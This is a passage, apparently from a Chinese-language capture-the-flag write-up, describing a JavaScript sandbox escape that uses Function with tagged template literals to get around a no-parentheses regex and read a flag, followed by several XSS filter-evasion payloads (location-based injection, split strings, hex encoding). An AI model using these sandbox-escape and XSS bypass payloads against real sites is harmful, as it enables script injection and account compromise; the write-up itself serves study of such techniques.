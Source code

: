 with条件进行代替，并且不允许有()，那我们可以用sandbox中的par函数来返回(constructor)来bypass这个正则，最终payload为：

```javascript
Function`a${`with${par`construtor`}return constructor`}`

```

再进行此anoymos函数的调用就可以获得Function了，然后再通过这个Function来返回沙箱外的flag.最后上个图：

![8B5OwF.png](https://s1.ax1x.com/2020/03/18/8B5OwF.png)

#### 拓展

用Function配和template String进行xss同样是很棒的攻击手法：

比如下面的Payload(tw上看到的)

```javascript
Function`a${unescape. call`${location}`}```

```

结合在url中输入%0aalert()//即可实现xss

```javascript
//拆分字母Bypass
Function`a${`return `+`aler`+`t(1)`}`
//字符编码Bypass
Function`a${`\x61\x6c\x65\x72\x74\x28\x29`}```


```

